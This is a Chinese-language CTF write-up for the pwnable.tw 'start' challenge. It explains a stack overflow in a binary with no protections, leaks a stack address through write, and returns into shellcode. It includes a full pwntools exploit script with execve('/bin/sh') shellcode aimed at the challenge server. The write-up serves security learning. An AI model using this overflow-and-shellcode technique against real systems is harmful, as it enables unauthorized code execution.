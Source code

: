 # ReadMe
#0blog

溢出，系统调用read和write，写shellcode的话，就要得到shellcode的首地址了。
瞅了瞅Gadgets，似乎并没有什么可以利用的。

![](ReadMe/804F8841-839C-4955-8D0F-C664EB3B169C.png)

回到两个函数，read的话肯定是触发溢出，那么write的话，是不是可以泄漏点东西呢～～
程序没开保护而且静态链接，可以和这个[CTF-Angstromctf-2018 | Lambda](http://d4rkd0g.github.io/2018/03/29/CTF-Angstromctf-2018/#6-Hellcode)似的泄漏和esp相关的信息。
首先可以控制eip，接着因为要泄漏，所以就要跳到write。write的地址在0x08048087，改一下：
![](ReadMe/A888565E-4DEB-423B-BF0D-46E754A25275.png)

阿哦~直接回车的话，传入的数据会有一个“0a”覆盖掉后续地址中的内容，要么pwntools中的send，要么直接Ctrl+D：

![](ReadMe/94C9EA4E-6C57-4DA1-AE70-DB8134E6A2A1.png)

Int 0x80调用write的时候打印的ecx中的数据，也就是会打印出0xffffd790，看起来好像一个栈地址。于是我们回到程序的开头：

![](ReadMe/08DA7F43-D5A7-4D43-9673-1A65C6A0BDC3.png)

因此，就可以得知关于栈的其他地址。
得到的地址也就是esp+4，之后执行read函数，读入的数据存在esp，然后esp增加0x14，最后ret。
算一算，构造一下payload：
`‘A’ * 0x14 + ret + shellcode`
其中ret即为泄漏的地址-4+0x14+4。

```python
from pwn import *

context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
debug = 0

if debug:
    p = process("./start")
    gdb.attach(proc.pidof(p)[0])
else:
    p = remote("chall.pwnable.tw", 10000)

p.recvuntil("Let's start the CTF:")
shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"
payload = "A" * 20 + p32(0x08048087)
p.send(payload)
esp = u32(p.recv()[:4])
payload = "A" * 20 + p32(esp + 20) + shellcode 
p.send(payload)
p.interactive()
```

![](ReadMe/22F50B10-C5C9-404B-824F-4464DB87A4D8.png)

那么问题来了，对于这种应该怎么符号执行和Fuzzing来做。。。

附：
![](ReadMe/QQ20180425-201632.png)
